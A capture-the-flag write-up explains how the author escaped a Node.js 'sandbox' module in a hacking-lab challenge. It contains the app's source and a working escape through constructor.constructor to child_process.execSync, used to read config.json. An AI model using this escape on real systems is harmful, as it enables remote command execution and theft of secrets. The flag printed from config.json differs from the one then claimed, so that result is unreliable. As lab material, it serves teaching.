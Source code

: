 # Day 10: >_ Run, Node, Run

Santa has practiced his nodejs skills and wants his little elves to practice it as well, so the kids can get the web-app they wish for.

He made a little practice sandbox for his elves. Can you break out?

[http://whale.hacking-lab.com:3000/](http://whale.hacking-lab.com:3000/)

### Description

The sandbox application let you run your JS code and then displayed the result. Its source code was publicly available.

![fake.png](files/sandbox.png "fake ball")

### Solution

The first step was obvious. I checked the sandbox's source code.

```javascript
const {flag, port} = require("./config.json");
const sandbox = require("sandbox");
const app = require("express")();

app.use(require('body-parser').urlencoded({ extended: false }));

app.get("/", (req, res) => res.sendFile(__dirname+"/index.html"));
app.get("/code", (req, res) => res.sendFile(__filename));

app.post("/run", (req, res) => {

	if (!req.body.run) {
		res.json({success: false, result: "No code provided"});
		return;
	}

	let boiler = "const flag_" + require("randomstring").generate(64) + "=\"" + flag + "\";\n";

	new sandbox().run(boiler + req.body.run, (out) => res.json({success: true, result: out.result}));

});

app.listen(port);
```

The webapp was built on top of [Sandbox](https://github.com/gf3/sandbox) Node.js module. In order to find a vulnerability to escape from the sandbox I took a look at project's [opened issues](https://github.com/gf3/sandbox/issues). The 4th one from the top was particularly interesting: [Sandbox can be broken](https://github.com/gf3/sandbox/issues/50).

The issue report included PoC code with detailed explanation so it was pretty easy to start with my own experiments. After successful breakout I loaded [Child Process](https://nodejs.org/api/child_process.html#child_process_child_process) module in order to get remote access to shell and execute my commands.

This is what my RCE exploit looked like.

```javascript
function rce(command) {
   return eval(this.constructor.constructor('return process')())
      .mainModule
      .require('child_process')
      .execSync(command)
      .toString('utf8')
      .replace(/\n/g, ' ');
}
```

The final step was to simple read content of the configuration file by calling this piece of code.

```javascript
rce('cat ./config.json');
```

This was the content printed out.

```json
{ "flag":"HV18-YtH3-S4nD-bx5A-Nt4G", "port":3000}
```

And here is the flag stored in it.

```
HV18-PpTR-Qri5-3nOI-n51a-42gJ
```
